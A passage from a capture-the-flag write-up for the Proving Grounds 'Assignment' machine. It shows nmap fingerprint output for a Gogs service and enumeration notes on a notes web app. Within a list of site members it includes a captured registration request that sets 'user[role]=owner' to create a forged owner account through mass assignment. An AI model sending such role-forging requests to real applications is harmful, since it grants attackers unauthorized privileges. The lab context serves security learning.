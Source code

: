 ```bash
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="1TGpllSrOmNwcAzCTNPprJ18xEU6MTcwNjIzOD
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=b739c8e47a2d731b; Path=/; HttpOnly
|     Set-Cookie: _csrf=yfXohdLCc2L40dBU2nRzXE94i6k6MTcwNjIzODM3MTgwMTIwNzIzOA; Path=/; Domain=assignmen
t.pg; Expires=Sat, 27 Jan 2024 03:06:11 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: DENY
|     Date: Fri, 26 Jan 2024 03:06:11 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|_    <meta name="_csrf" content="yfXohdLCc2L40dBU2nRzXE94i6k6MTcwNjIzODM3MTgwM
|_http-open-proxy: Proxy might be redirecting requests
```

# Enumeration

---

## HTTP | 80

![notes_site](../../../assets/images/ctfs/proving_grounds/assignment/notes_site.png)

Located "jane@notes.pg" on home page.

Created user "kamino" and logged on.

![logged_on](../../../assets/images/ctfs/proving_grounds/assignment/logged_on.png)

Found the following "members"

```bsah

    jane
    tom
    jim
    judie
    james
    bob
    simon
    deezy
    authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
    deezy
    forged_owner
```